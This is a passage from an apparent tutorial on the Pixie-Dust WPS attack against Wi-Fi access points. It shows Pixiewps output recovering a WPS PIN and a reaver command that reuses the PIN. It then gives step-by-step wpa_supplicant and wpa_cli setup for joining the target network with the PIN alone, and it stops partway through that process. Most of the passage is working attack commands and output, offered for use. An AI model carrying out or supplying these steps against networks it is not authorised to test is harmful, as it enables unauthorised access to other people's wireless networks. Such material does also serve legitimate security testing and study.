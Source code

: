 ```bash
[Pixie-Dust]   Pixiewps 1.2
[Pixie-Dust]  
[Pixie-Dust]   [*] PRNG Seed:  1415565154 (Sun Nov  9 20:32:34 2014 UTC)
[Pixie-Dust]   [*] Mode:       3 (RTL819x)
[Pixie-Dust]   [*] PSK1:       00:00:00:0f:f1:ce:ba:ad:f0:0d:de:ad:be:ef:8e:62
[Pixie-Dust]   [*] PSK2:       a7:45:00:00:00:0f:f1:ce:ba:ad:f0:0d:de:ad:be:ef
[Pixie-Dust]   [*] E-S1:       37:99:ad:90:32:a5:2e:24:32:18:fc:9f:7d:51:11:42
[Pixie-Dust]   [*] E-S2:       37:99:ad:90:32:a5:2e:24:32:18:fc:9f:7d:51:11:42
[Pixie-Dust]   [+] WPS pin:    69988661
[Pixie-Dust]
[+] Running reaver with the correct pin, wait ...
[+] Cmd : reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -c 1 -s y -vv -p 69988661
[Reaver Test] [+] BSSID: AA:BB:CC:XX:YY:ZZ
[Reaver Test] [+] Channel: 1
[Reaver Test] [+] WPS PIN: '69988661'
[Reaver Test] [+] AP SSID: '[redacted]'
```

In this case, I couldn't get the PSK for some unknown reasons... But still, we have the PIN so I will show you how to deal with this corner case in the next setion.

## Issues

As shown in the previous exemple, Reaver finds the PIN but not passphrase. After some research it seems that I'm not the only one with this issue.

I don't really know why this occurs and I should take a closer look to the code to understand this issue. But this is not a real problem, you can authenticate to the AP with just the PIN, it just takes a manual process.

First, you have to set a basic **wpa_supplicant.conf** in */etc/wpa_supplicant.conf* :

```bash
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1
```

Then, start **wpa_supplicant** in daemon mode :

```bash
$ wpa_supplicant -D nl80211 -i <wireless_interface> -c /etc/wpa_supplicant.conf –B

Successfully initialized wpa_supplicant
```

The **-D** option select the driver to use (*nl80211* is the current standard, but not all wireless chip's modules support it) and the **-B** runs the daemon in the background. Run `wpa_cli` and verify that it's working by issuing the command `status`.

```bash
$ wpa_cli

wpa_cli v2.4
Copyright (c) 2004-2015, Jouni Malinen <j@w1.fi> and contributors

This software may be distributed under the terms of the BSD license.
See README for more details.


Selected interface 'wlan0'

Interactive mode

> status

wpa_state=INACTIVE
```